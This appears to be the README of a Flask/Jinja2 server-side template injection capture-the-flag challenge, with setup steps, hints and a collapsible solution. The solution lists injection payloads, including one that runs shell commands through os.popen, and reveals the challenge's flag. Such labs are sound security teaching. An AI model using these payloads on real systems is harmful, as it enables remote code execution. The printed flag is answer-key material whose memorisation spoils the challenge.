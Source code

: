 # SSTI CTF Challenge

A Server-Side Template Injection (SSTI) challenge created with Flask and Jinja2 templates.

## Challenge Description

This challenge involves a simple messaging service that contains a Server-Side Template Injection vulnerability. Your goal is to exploit this vulnerability to retrieve the hidden flag.

## Deployment Instructions

### Using Docker Compose (Recommended)

1. Make sure you have Docker and Docker Compose installed.
2. Run the following command to build and start the container:

```
docker-compose up -d
```

3. Access the challenge at `http://localhost:5000`

### Manual Setup

1. Install the required Python packages:

```
pip install -r requirements.txt
```

2. Run the Flask application:

```
python app/app.py
```

3. Access the challenge at `http://localhost:5000`

## Challenge Hints

1. The messaging service doesn't properly sanitize the input.
2. Jinja2 templates can execute Python code under certain conditions.
3. The admin page contains the flag, but how can you access it without directly visiting the page?

## Solution

<details>
<summary>Click to reveal solution</summary>

This challenge involves a Server-Side Template Injection vulnerability.

1. Go to the "Leave a Message" page
2. In the name field, instead of entering a normal name, enter Jinja2 template code such as:

   - `{{7*7}}` - This should render as 49 if the SSTI vulnerability exists
   - `{{config}}` - To see the Flask configuration
   - `{{config.items()}}` - To see the configuration as key-value pairs
   - More advanced payloads can give you remote code execution:
   - `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`
   - Or to directly get the flag: `{{request.application.__globals__.__builtins__.__import__('app').FLAG}}`

3. The flag is: `ETHACK{es_es_ti_ai_ahayahay}`
</details>
